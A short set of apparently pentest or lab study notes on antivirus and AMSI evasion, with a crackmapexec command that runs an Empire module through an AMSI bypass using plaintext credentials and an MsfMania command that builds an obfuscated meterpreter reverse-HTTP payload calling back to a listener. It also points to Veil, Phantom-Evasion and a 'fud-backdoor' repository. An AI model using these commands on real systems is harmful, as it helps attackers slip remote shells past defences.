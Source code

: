 

## Using our own amsi bypass file and then execute through CME 

>  crackmapexec smb 192.168.125.133 -u fcastle -p 'Password1' -d HYDRA.local -M empire_exec -o LISTENER=final --amsi-bypass bypassfile


## Similiarly we can use --obfs flag to obfusctae our modules to try to get stealthy




# Veil evasion


we can use veil framework to create obfucated payloads with custom settings


# To obfuscate msf payloads we can use phantom evasion or msf mania






### msfmania

> python3 MsfMania.py -a x64 -p windows/x64/meterpreter/reverse_http -lh 192.168.125.128 -lp 6969 -o update -it local


> python3 MsfMania.py -h



### Phantom-Evasion


This tool has a nice interface and we can obfuscate our msf paylaods of windows/linux/persistence/postexp/privesc type


### fud-backdoor

https://github.com/3ct0s/fud-backdoor


#### msfevasion advanced tips

https://www.infosecmatter.com/why-is-your-meterpreter-session-dying-try-these-fixes/

>   --list-options will provide us advanced options to set when creating msfvenom payloads



